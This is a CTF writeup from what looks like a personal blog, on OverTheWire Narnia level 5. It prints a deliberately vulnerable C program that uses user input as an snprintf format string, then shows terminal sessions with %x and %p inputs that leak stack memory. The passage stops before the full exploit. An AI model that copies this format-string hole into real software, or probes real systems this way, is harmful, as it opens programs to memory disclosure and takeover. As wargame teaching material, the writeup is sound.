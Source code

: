 ```yaml
---
layout: post
title:  "Narnia 5 - 9 (OverTheWire CTF Writeup)"
date:   2020-09-23 08:00:00 +0100
categories: writeup Hacker101 
---
```


This is the second part Of OverTheWire's Narnia CTF Writeup covering all the final levels from 5 to 9. Let's start!

# *Narnia5*
Let's start off by taking a look to the source code:

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
        int i = 1;
        char buffer[64];

        snprintf(buffer, sizeof buffer, argv[1]);
        buffer[sizeof (buffer) - 1] = 0;
        printf("Change i's value from 1 -> 500. ");

        if(i==500){
                printf("GOOD\n");
        setreuid(geteuid(),geteuid());
                system("/bin/sh");
        }

        printf("No way...let me give you a hint!\n");
        printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
        printf ("i = %d (%p)\n", i, &i);
        return 0;
}
{% endhighlight %}
So here the argument passed to the program is copyed in a 64 bytes long buffer but this time the size is checked. What this means is no Buffer Overflow this time, however this program i subject to another known vulnerability: [format strings](https://en.wikipedia.org/wiki/Uncontrolled_format_string). Because of the incorrect use of the `snprintf` function (which btw is like printf but prints to a buffer intead of stdout) our input is formated accoring to the `convertion specifiers`. Let's see what this looks like.
```
narnia5@narnia:/narnia$ ./narnia5 AAA
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAA] (3)
i = 1 (0xffffd6e0)
narnia5@narnia:/narnia$ ./narnia5 AAA%x%p
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAf74141410x34313437] (21)
i = 1 (0xffffd6e0)
```
First we write `AAA` in our buffer and everything works as expected but on the second try we also try to write `%x` and `%p` which are special characters for the sprintf function. The vulnerable function will take any following arguments and print it's hex value. Because there isn't any passed argument in the source code the function will start reading memory from the stack. Let's try this again.
```
narnia5@narnia:/narnia$ ./narnia5 %x.%x.%x.%x.%x.%x.%x.%x.%x
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [f7fc5000.30303035.3330332e.33303330.33332e35.33333033.332e6532.] (63)
i = 1 (0xffffd6d0)
```